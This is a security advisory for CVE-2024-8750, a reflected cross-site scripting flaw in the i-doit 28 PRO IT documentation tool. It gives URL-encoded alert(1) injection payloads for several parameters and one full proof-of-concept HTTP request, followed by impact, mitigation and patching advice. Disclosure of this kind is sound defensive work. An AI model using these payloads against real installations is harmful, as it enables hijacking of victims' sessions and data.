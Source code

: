# CVE-2024-8750

## Vulnerability Details:

- **CVSS Score:** 6.8 HIGHMEDIUM (CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:L/A:L)

- **Affected Component:** [I-DOIT](https://www.i-doit.com) parameters:

    | Parameter                    | Description                                       | URL (PoC)        |
    |------------------------------|---------------------------------------------------|------------|
    | id                           | Identifier parameter                              | /?moduleID=7&id=s3j5b%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22kmc6x&mNavID=2&lang=de |
    | lang                         | Language parameter                                | /?mNavID=2&lang=gui4c%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22ku6le&tenant_id=1  | 
    | mNavID                       | Navigation identifier parameter                   | /?mNavID=aqaal%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22el125&lang=de&tenant_id=1 |
    | name (arbitrarily supplied) | Name of an arbitrarily supplied URL parameter     | /?navMode=&sort=&dir=&id=&navPageStart=&navTemplateDetailView=&template=&useTemplate=&popupReceiver=&_csrf_token=1698.wxfibOhTA0_Y5hIPtKFSbmcrrEAO7zOoiGTUmvtApXU.omW1PKBrZCG0k1RV8uJqNy5Gny1qvwv7-gmV45d30RqbWowurgFJHomqIg&HTTP_GOTO=&login_username=admin&login_password=admin&login_submit=&uo703%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22vnuwwxvu6hf=1 |
    | pID                          | ID parameter                                      | /?moduleID=7&pID=bzon8%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22bsv0h |
    | treeNode                     | Tree node parameter                               | /?moduleID=1021&treeNode=1021360494'%3balert(1)%2f%2f883&pID=type-config |
    | type                         | Type parameter                                    | /?viewMode=1101&type=cehtj%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22g3asdsxian9&view=object&mNavID=2&lang=de&navMode=&sort=&dir=&id=&navPageStart=&navTemplateDetailView=&template=&useTemplate=&popupReceiver=&_csrf_token=&q=dDLqSW&submit_isys_form=&C_VISUALIZATION_OBJ_SELECTION=dDLqSW&C_VISUALIZATION_OBJ_SELECTION__HIDDEN=&C_VISUALIZATION_OBJ_SELECTION__CONFIG=%7B%22type%22%3A%22f_popup%22%2C%22p_strPopupType%22%3A%22browser_object_ng%22%2C%22name%22%3A%22C_VISUALIZATION_OBJ_SELECTION%22%2C%22disableInputGroup%22%3Atrue%2C%22p_bDisableDetach%22%3Atrue%2C%22p_bInfoIconSpacer%22%3A0%2C%22p_strValue%22%3A%22%22%2C%22p_strPlaceholder%22%3A%22Bitte+Objekt+ausw%5Cu00e4hlen%22%2C%22callback_accept%22%3A%22idoit.callbackManager.triggerCallback%28%27visualization-init-explorer%27%29%3B%22%2C%22nowiki%22%3A1%2C%22disablePrimaryConditions%22%3Afalse%2C%22disableSecondaryConditions%22%3Afalse%2C%22disableCustomConditions%22%3Afalse%2C%22use_auth%22%3Afalse%2C%22p_onClick%22%3A%22if+%28%21this.getValue%28%29.blank%28%29%29+%7Bthis.writeAttribute%28%27placeholder%27%2Cthis.readAttribute%28%27data-last-value%27%29%29.setValue%28%27%27%29%3B%7D%22%2C%22p_onBlur%22%3A%22if+%28this.getValue%28%29.blank%28%29%29+%7Bthis.setValue%28this.readAttribute%28%27data-last-value%27%29%29%3B%7D%22%2C%22p_strSuggest%22%3A%22object-browser%22%2C%22p_strSuggestView%22%3A%22C_VISUALIZATION_OBJ_SELECTION__VIEW%22%2C%22p_strSuggestHidden%22%3A%22C_VISUALIZATION_OBJ_SELECTION__HIDDEN%22%2C%22p_strSuggestParameters%22%3A%22parameters%3A+%7B%5C%22typeFilter%5C%22%3Anull%2C%5C%22catFilter%5C%22%3Anull%2C%5C%22typeBlacklist%5C%22%3Anull%2C%5C%22cmdb_filter%5C%22%3Anull%2C%5C%22customFilters%5C%22%3Anull%7D%2CselectCallback%3A+function%28view%2C+li%29+%7Bview.writeAttribute%28%27data-last-value%27%2C+li.readAttribute%28%27title%27%29%29%3Bidoit.callbackManager.triggerCallback%28%27visualization-init-explorer%27%29%3B%7D%22%2C%22checkRight%22%3A%22isys_auth%3A%3AEDIT%22%2C%22p_additional%22%3A%22+data-hidden-field%3D%5C%22C_VISUALIZATION_OBJ_SELECTION__HIDDEN%5C%22+data-last-value%3D%5C%22%5C%22%22%2C%22id%22%3A%22C_VISUALIZATION_OBJ_SELECTION__VIEW%22%7D&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strPopupType%5D=browser_object_ng&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_arData%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strTable%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bp_strValue%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Bmultiselect%5D=&SM2__C_VISUALIZATION_OBJ_SELECTION%5Btype%5D=f_popup&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strPopupType%5D=visualization_itservice_selection&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_arData%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strTable%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bp_strValue%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Bmultiselect%5D=&SM2__C_VISUALIZATION_IT_SERVICE_SELECTION%5Btype%5D=f_popup&C_VISUALIZATION_PROFILE=1&SM2__C_VISUALIZATION_PROFILE%5Bp_strPopupType%5D=visualization_profile&SM2__C_VISUALIZATION_PROFILE%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_PROFILE%5Bp_arData%5D=&SM2__C_VISUALIZATION_PROFILE%5Bp_strTable%5D=&SM2__C_VISUALIZATION_PROFILE%5Bp_strValue%5D=&SM2__C_VISUALIZATION_PROFILE%5Bmultiselect%5D=&SM2__C_VISUALIZATION_PROFILE%5Btype%5D=tree&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strPopupType%5D=visualization_export&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_arData%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strTable%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bp_strValue%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Bmultiselect%5D=&SM2__C_VISUALIZATION_EXPORT_BUTTON%5Btype%5D=f_popup&C_VISUALIZATION_SERVICE_FILTER=-1&SM2__C_VISUALIZATION_SERVICE_FILTER%5Bp_strSelectedID%5D=&SM2__C_VISUALIZATION_SERVICE_FILTER%5Bp_strTable%5D=&SM2__C_VISUALIZATION_SERVICE_FILTER%5Bp_arData%5D=a%3A6%3A%7Bi%3A-1%3Bs%3A1%3A%22-%22%3Bi%3A1%3Bs%3A7%3A%22Level+1%22%3Bi%3A2%3Bs%3A7%3A%22Level+2%22%3Bi%3A3%3Bs%3A7%3A%22Level+3%22%3Bi%3A4%3Bs%3A7%3A%22Level+4%22%3Bi%3A5%3Bs%3A7%3A%22Level+5%22%3B%7D&SM2__C_VISUALIZATION_SERVICE_FILTER%5Btype%5D=f_dialog&LogbookCommentary= |
    | view                         | View parameter                                    | /?viewMode=1101&type=tree&view=object38032'%3balert(1)%2f%2f845&mNavID=2&lang=en |
    | index.php (arbitrarily supplied) | Name of an arbitrarily supplied URL parameter for /index.php route | /index.php |
    | multiedit (arbitrarily supplied) | Name of an arbitrarily supplied URL parameter for /multiedit route | /multiedit |
    | search (arbitrarily supplied) | Name of an arbitrarily supplied URL parameter for /search route | /search |
  
- **Vulnerability Type:** Cross-site scripting Reflected (XSS)

- **Impact:** If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can:
  - Perform any action within the application that the user can perform.
  - View any information that the user is able to view.
  - Modify any information that the user is able to modify.
  - Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.

- **Exploitability:** The vulnerability can be exploited by crafting specifically malicious queries and submitting them through the vulnerable parameters.

- **Affected Versions:** Tested only in [I-DOIT](https://www.i-doit.com) 28 PRO

- **Details:** A Reflected Cross-Site Scripting (XSS) vulnerability occurs when user input is not properly sanitized by a web application and is then echoed back to the user's browser without adequate encoding. This allows an attacker to inject and execute malicious scripts within the context of the victim's session.

- **Mitigation:** Preventing cross-site scripting isn't a simple fix that you can turn on or off. Depending on the web application, protection strategies will differ. That said, it's important to consider the following strategies for how to mitigate cross-site scripting.

  - **Whenever possible, prohibit HTML code in inputs.** Preventing users from posting HTML code into form inputs is a straightforward and effective measure.
  - **Validate inputs.** If you're going to accept form inputs, validating the data to ensure it meets specific criteria will be helpful
  - **Secure your cookies.** Setting rules for your web applications defining how cookies are handled can prevent XSS and even block JavaScript from accessing cookies.
  - **Sanitize data.** Similar to validation, sanitizing occurs after data has been posted but before it is executed. Look for online tools like HTMLSanitizer to sanitize HTML code online for XSS vulnerabilities.
  - **Use a web application firewall (WAF).** Rules can be created on a WAF to specifically address XSS by blocking abnormal server requests. A robust WAF should be a key component of your organization's security strategy, as it can also prevent SQL injection attacks, distributed denial-of-service attacks and other common threats.

## Proof of Concept (PoC):

An attacker could craft a malicious request to exploit the vulnerability:

```HTTP Request
GET /?moduleID=7&id=s3j5b%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22kmc6x&mNavID=2&lang=de HTTP/1.1
Host: 192.168.1.46
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: PHPSESSID=3e9a5hs6b6rbcmv77aipbkhddu
Upgrade-Insecure-Requests: 1
Referer: http://192.168.1.46/?moduleID=7&id=5047
Sec-CH-UA: ".Not/A)Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
Sec-CH-UA-Platform: Windows
Sec-CH-UA-Mobile: ?0
Content-Length: 0
```

![image](https://github.com/offensive-security-pwncat/CVE/blob/main/XSS/img/022024.jpeg?raw=true)

## Recommendations:

- **Patch:** Develop and deploy a patch or update that addresses the XSS Reflected vulnerabilities in the affected parameters.

- **Education:** Provide training and resources to developers on secure coding practices, emphasizing the importance of input validation and preventing XSS Refelcted vulnerabilities.

